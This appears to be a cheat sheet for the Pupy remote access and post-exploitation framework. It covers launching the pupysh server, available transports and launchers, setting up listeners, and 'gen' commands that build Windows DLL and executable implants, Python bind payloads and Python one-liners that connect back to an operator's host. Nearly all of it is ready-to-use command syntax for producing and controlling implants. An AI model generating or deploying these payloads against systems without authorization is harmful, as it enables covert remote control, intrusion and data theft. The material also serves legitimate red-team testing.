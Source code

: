 ## Run the server
Once you have [correctly](https://github.com/n1nj4sec/pupy/wiki/Installation) installed pupy, you are ready to launch the server.
```code
pupysh
```

## Transport
-
```ssl```

-
```rsa```

-
```ssl_rsa```

-
```websocket```

-
```aes```

-
```http```

-
```obfs3```

-
```scramblesuit```

-
```udp```

## Launchers
-
```connect```

-
```bind```

-
```auto_proxy```

-
```dnscnc```

## Listeners
To add listeners on `pupysh`, use `listen` as following:
```
>> listen -a <transport> <port>
```

- Exemple:
```
>> listen -a ssl 8443
[+] Listen: ssl: 8443
```

## Payloads format
-
```client```

-
```py```

-
```pyinst```

-
```py_oneliner```

-
```ps1```

-
```ps1_oneliner```

-
```rubber_ducky```

## Payloads Generation
Payloads generation are done using the `gen` command.
```
>> gen -f <format> <launcher> -t <transport>
```

- Windows dll
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```

- Windows executable
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```

- Python file - Bind
```
>> gen -f py bind --port port -t transport
```

- Python oneliner
```
>> gen -f py_oneliner connect --host ip:port -t transport
```

